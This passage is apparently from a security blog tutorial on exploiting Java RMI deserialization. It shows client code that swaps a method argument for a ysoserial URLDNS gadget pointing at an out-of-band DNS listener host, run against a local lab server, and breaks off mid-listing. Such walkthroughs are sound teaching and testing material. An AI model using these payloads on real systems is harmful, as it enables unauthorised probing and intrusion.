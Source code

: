 Once that's done, the following code can be added to the client:

```java
1. IServiceA svc_a = (IServiceA) example_service.returnService("Service A");
2. svc_a.createOrder(1, "Random", new Date());
```

On Line 1, the String `Service A` is passed in as a parameter to the `returnService()` method. The reason the String `Service A` is passed because it was shown earlier in `ExampleServiceRegImpl.java` that this is the key which is assocated with the `ServiceA` instance which was stored in the `items` map:

```java
items.put("Service A", a);
```

The returned value is cast as type `IServiceA` and is intialized as the `svc_a` variable. 
On Line 2, `svc_a` then calls the `createOrder()` method passing it the required parameters.

To test whether the client is able to succesfully pull the `ServiceA` instance, start the server and run the client. As the `ServiceA` implementation on the server-side contains a print statement, it will be printed in the server's console if all works well:

![Screenshot]({{ site.baseurl }}/images/posts/2020/rmi/printstatement.png)

In order to leverage exploitation, the bengign `Date` object which the method expects needs to be replaced with a malicous serialized object. In order to generate the malicious serial object, [ysoserial](https://github.com/frohoff/ysoserial)[5] will be used.

The best gadget to use for probing whether deserialization exists is the `URLDNS` gadget. This is because this gadget is included in the standard Java library and doesn't require any external dependencies. Upon the malicious object being successfully deserialized and the gadget called, this will invoke a DNS Lookup. This all depends on whether the vulnerable server has the ability to invoke DNS Lookups and nothing standing in its way such as egress filtering by the firewall. 

Once the `ysoserial` jar has been downloaded, add it as a library to the client project's classpath. Once `ysoserial` has been added the malicious object can be generated using the following code:

```java
Object malicious_obj = new URLDNS().getObject("http://9b3459444e240a2a8575fe5f6adb.ns.pingb.in");
```

The argument that's being passed to the `getObject()` method is the location of the DNS Listener. There are several different types of listeners which can be used including Burp Collaborator, DNSBin, Pingb.in and many more. Ensure to prepend `http://` to the DNS Listener host as it's required by the `URLDNS` gadget.

The RMI Client code at the current moment looks as the following:

```java=
1. package RMIClientDemo;
2. 
3. import RMIExploitationDemo.IExampleServiceReg;
4. import RMIExploitationDemo.IServiceA;
5. import ysoserial.payloads.URLDNS;
6. 
7. import java.rmi.NotBoundException;
8. import java.rmi.RemoteException;
9. import java.rmi.registry.LocateRegistry;
10. import java.rmi.registry.Registry;
11. import java.util.Date;
12. 
13. public class Client {
14.     public static void main(String[] args) throws Exception {
15. 
16.         Object malicious_obj = new URLDNS().getObject("http://9b3459444e240a2a8575fe5f6adb.ns.pingb.in");
17.         Registry naming = LocateRegistry.getRegistry("localhost", 1099);
18.         IExampleServiceReg example_service = (IExampleServiceReg) naming.lookup("example-service");
```